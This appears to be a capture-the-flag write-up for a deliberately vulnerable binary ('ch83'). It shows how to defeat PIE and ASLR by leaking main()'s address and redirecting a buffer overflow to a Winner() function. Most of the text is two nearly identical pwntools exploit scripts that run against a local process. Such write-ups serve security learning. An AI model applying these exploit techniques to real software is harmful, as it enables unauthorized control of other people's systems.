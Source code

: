 # Buffer Overflow PIE

it Explains how to exploit a **buffer overflow** vulnerability in a binary compiled with **PIE** (Position Independent Executable) and protections such as **ASLR**. The goal is to redirect execution to the `Winner()` function using the address of the `main()` function.

***

#### **Objectives**

1. **Leak the address of `main()`**.
2. **Calculate the address of `Winner()`** using offsets.
3. **Exploit the vulnerability to redirect execution to `Winner()`**.

***

#### Solution 1: Exploit using Pwntools and address extraction

```python
from pwn import *

context.arch = "amd64"
context.endian = "little"

p = process("./ch83")
a = p.recv()
main_off = 0x91a
win_off = 0x87a
main_ret = a.split(b"main():")[1].strip()
main_ret = int(main_ret, 16)
p.sendline(b"A"*40 + p64(main_ret - main_off + win_off))
print(p.recv())

```

#### **Solution 2: Exploit using Pwntools (dynamic address calculation)**

```python
from pwn import *

context.arch = "amd64"
context.endian = "little"

p = process("./ch83")
a = p.recv()
main_off = 0x91a 
win_off = 0x87a 

main_ret = a.split(b"main():")[1].strip()
main_ret = int(main_ret, 16)

winner_addr = main_ret - main_off + win_off

payload = b"A" * 40 
payload += p64(winner_addr)

p.sendline(b"A"*40 + p64(main_ret - main_off + win_off))
print(p.recv())


```
